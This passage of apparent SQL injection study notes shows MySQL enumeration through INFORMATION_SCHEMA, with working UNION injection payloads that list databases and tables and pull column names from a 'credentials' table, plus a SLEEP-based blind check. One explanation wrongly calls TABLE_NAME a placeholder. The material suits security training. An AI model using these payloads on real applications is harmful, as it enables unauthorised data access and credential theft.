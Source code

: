   - `SELECT SLEEP(5)`:
    - **Purpose**: Delays the response to confirm a blind SQL injection.
    - **Expected Output**: Delays response for 5 seconds and returns `0`.
    - **Wrong Output**: Will not delay response with other DBMS.

### INFORMATION_SCHEMA Database

- **Purpose**: Contains metadata about all databases and tables.
- **Reference Tables**: Use the dot `.` operator to reference tables in other databases.
  ```sql
  SELECT * FROM my_database.users;
  ```

#### SCHEMATA Table

- **Purpose**: Lists all databases on the server.
  ```sql
  SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
  ```
- **Union Injection Example**:
  ```sql
  cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
  ```
  - **Explanation**: This will list all database names. The columns `1`, `3`, and `4` are placeholders to match the number of columns in the original query.

#### Current Database

- **Find Current Database**:
  ```sql
  SELECT database();
  ```
- **Union Injection Example**:
  ```sql
  cn' UNION select 1,database(),2,3-- -
  ```
  - **Explanation**: This retrieves the name of the current database the application is using. Here `1`, `2`, and `3` are placeholders.

#### TABLES Table

- **Purpose**: Lists all tables within a specific database.
  ```sql
  SELECT TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dev';
  ```
- **Union Injection Example**:
  ```sql
  cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
  ```
  - **Explanation**: This query retrieves the names of all tables within the `dev` database. The columns `1` and `4` are placeholders.

#### COLUMNS Table

- **Purpose**: Lists all columns within a specific table.
  ```sql
  SELECT COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='credentials';
  ```
- **Union Injection Example**:
  ```sql
  cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
  ```
  - **Explanation**: This query retrieves the column names from the `credentials` table. The columns `1` and `TABLE_NAME` are placeholders.
